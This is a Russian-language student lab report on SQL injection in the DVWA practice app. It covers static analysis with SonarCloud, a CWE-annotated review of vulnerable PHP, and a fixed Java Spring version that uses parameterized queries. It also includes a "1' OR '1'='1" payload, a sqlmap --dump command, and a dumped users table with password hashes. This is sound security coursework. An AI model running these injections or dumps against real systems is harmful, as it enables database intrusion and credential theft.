# SDLC_Lab_4
Практика №4 по "Разработке безопасного программного обеспечения"

### 1. Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

Для нахождения участка кода, содержащего инъекцию SQL в приложении используем два статический анализатор SonarCloud. 

Для начала загрузим код уровня low с SQL инъекцией на SonarCloud и посмотрим, какие недочеты обнаружит аналитор.

 

Можем увидеть, что анализатор указал, где находится уязвимость в программе на уровне low и на уровне high. SonarCloud указывает путь, по которому вредоносные данные могут попасть через пользовательский ввод в запрос к базе данных. В случае с уровнем low вредоносные данные могут попасть напрямую через пользовательский ввод с клавиатуры в поле формы. Например, если ввести "1' OR '1'='1", то приложение сообщит, что пользователь с таким id существует.

В случае с уровнем high, анализатор указал, что вредоносные данные могут попасть в запрос в базу данных через значение id в cookie, так как пользователь также может менять значения cookie, которые отправляются на сервер.

### 2. Проанализировать код и сделать кодревью, указав слабые места

Проанализируем код и укажем в комментариях проблемные участки кода с использованием метрики CWE.

```PHP
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
	$id = $_GET[ 'id' ];

	$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
	//Использование необработанного параметра HTTP запроса в SQL запроса в mysqli_query ведет к уязвимости CWE-89 SQL Injection. (1' OR '1'='1)
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );

	$num = @mysqli_num_rows( $result );
	if( $num > 0 ) {
		$html .= '<pre>User ID exists in the database.</pre>';
	}
	else {
		header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        //CWE-209: Generation of Error Message Containing Sensitive Information. Информацию о ненахождении пользователя в бд - лишняя и может быть использована
        //злоумышленником для получения дополнительных сведений о внутреннем устройстве сервиса
		$html .= '<pre>User ID is MISSING from the database.</pre>';
	}

    //CWE-477: Use of Obsolete Function. В коде используются устаревшие или нерекомендуемые функции, что может вести к уязвимостям. В данном случае используется устаревшая функция mysqli_close
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

### 3. Разработать свою систему вывода информации об объекте на любом языке, исключающий взможность инъекции SQL кода. Возможно исправление участка кода из dvwa.local Требования к системе авторизации. Система вывода информации об объекте должна использовать запросы GET с параметрами, аналогичными из задания Blind SQL injection dvwa

Разработаем аналогичную систему проверки существования id сущности с использованием Java Spring JDBC, где в качестве базы данных будет использоваться in memmory база данных H2. 

Таким образом, скрипт инициализации базы данных имеет следующий вид.

```SQL
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

INSERT INTO users (id, name) VALUES
    (45, 'Alex'),
    (34, 'Marty');
```

Код, обрабатывающий запрос и выполняющий запрос в базу данных выглядит следующим образом.

```Java
private static final String GET_USER_SQL = "SELECT id, name FROM users WHERE id = ?";
    private static final String IS_SUCCESS_ATTRIBUTE_NAME = "isSuccess";
    private static final String RESULT_ATTRIBUTE_NAME = "result";
    private static final String TEMPLATE_NAME = "page";

    private final JdbcTemplate jdbcTemplate;

    @GetMapping("/")
    public ModelAndView makeRequest(@RequestParam(value = "id", required = false) String id,
                            @RequestParam(value = "Submit", required = false) String submit) {
        ModelAndView modelAndView = new ModelAndView(TEMPLATE_NAME);

        if (id == null || submit == null) {
            modelAndView.addObject(IS_SUCCESS_ATTRIBUTE_NAME, null);
            return modelAndView;
        }

        long idParam;
        try {
            idParam = Long.parseLong(id);
        } catch (NumberFormatException e) {
            modelAndView.addObject(IS_SUCCESS_ATTRIBUTE_NAME, false);
            modelAndView.setStatus(HttpStatus.NOT_FOUND);
            return modelAndView;
        }
        var result = jdbcTemplate.queryForRowSet(GET_USER_SQL, idParam);
        if (result.next()) {
            modelAndView.addObject(RESULT_ATTRIBUTE_NAME,
                new String[] {result.getString("id"), result.getString("name")});
            modelAndView.addObject(IS_SUCCESS_ATTRIBUTE_NAME, true);
        } else {
            modelAndView.addObject(IS_SUCCESS_ATTRIBUTE_NAME, false);
            modelAndView.setStatus(HttpStatus.NOT_FOUND);
        }
        return modelAndView;
    }
```

В данном участке кода принимается GET запрос сервером, и выполняется SQL запрос в базу данных с помощью JdbcTemplate, который предоставляет Spring JDBC. 

Перейдем на по адресу `http://localhost:8080` и проверим работу программы.

 

### 4. Использовать sqlmap для нахождения уязвимости в веб-ресурсе

SqlMap - это инструмент с открытым исходным кодом, который автоматически находит и эксплуатирует уязвимости SQL-инъекций. Для начала используем этот инструмент на приложении DVWA для нахождения его уязвимостей.

Выполним команду в папке с проектом SqlMap. В команде важно указывать cookie действующей сессии.

```Bash
python sqlmap.py --cookie="PHPSESSID=e7d8d3f5f883d69af84e124a7de9ccb3; security=low" -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --level=5  --risk=3 -T users --dump
```

Программа начинает свое выполнение.

```Bash
       ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.11.11#dev}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:42:47 /2024-12-12/
```

Спустя какое-то время SqlMap завершает свою работу. Результатом работы программы является sql таблица пользователей, которую удалось извлечь, используя уязвимость SQL инъекций.

```Bash
Database: dvwa
Table: users
[5 entries]
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2024-11-07 20:39:03 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2024-11-08 19:03:50 | 1            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2024-11-07 20:39:03 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2024-11-07 20:39:03 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2024-11-07 20:39:03 | 0            |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+

[21:43:49] [INFO] table 'dvwa.users' dumped to CSV file 'C:\Users\Алексей\AppData\Local\sqlmap\output\localhost\dump\dvwa\users.csv'
[21:43:49] [INFO] fetched data logged to text files under 'C:\Users\Алексей\AppData\Local\sqlmap\output\localhost'

[*] ending @ 21:43:49 /2024-12-12/
```

Применим SqlMap к разработанной системе вывода информации и убедимся, что использование JdbcTemplate в Spring препятствует эксплуатированию SQL инъекций. Команда для запуска выглядит следующим образом.

```Bash
python sqlmap.py -u "http://localhost:8080/?id=1&Submit=Submit" --batch --banner --level=5 --risk=3
```

Спустя некоторое время SqlMap, проверив все варианты инъекции, сообщает, что совершить SQL инъекцию через заданные параметры не удалос.

```Bash
[02:04:43] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[02:04:43] [INFO] testing 'MySQL UNION query (random number) - 1 to 10 columns'
[02:04:44] [WARNING] parameter 'Host' does not seem to be injectable
[02:04:44] [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 02:04:44 /2024-12-03/
```

Таким образом, используя SqlMap можно убедиться, что разработанная система не подвержена атаком с использованием SQL инъекции.

### 5. Использовать Burp для нахождения уязвимости в веб-ресурсе

Еще одним инструментом для поиска уязвимостей в веб-ресурсе является Burp. С его помощью так же можно находить и эксплуатировать уязвимости SQL инъекции. Применим этот инструмент к веб-ресурсу DVWA.

Используем встроенный браузер в Burn, чтобы перехватить запрос на сервер в DVWA.



После чего, нажав на запрос правой кнопкой мыши, отправим его в intruder, где выделим участок в запросе, который будет подвержен атаке.



Загрузим список комбинаций SQL инъекций, который был найден на просторах гитхаба, и выберем параметр replace в payload processing.



Запустим процесс атаки.



Базовая версия Burn дает очень скромные ресурсы для атак, однако этого достаточно, чтобы заметить, что веб-ресурс DVWA ведет себя крайне нестабильно, и многие атаки увенчиваются успехом. Пример успешной атаки можно увидеть на скриншоте.



Попробуем применить Burp к разработанной раннее системе.

 




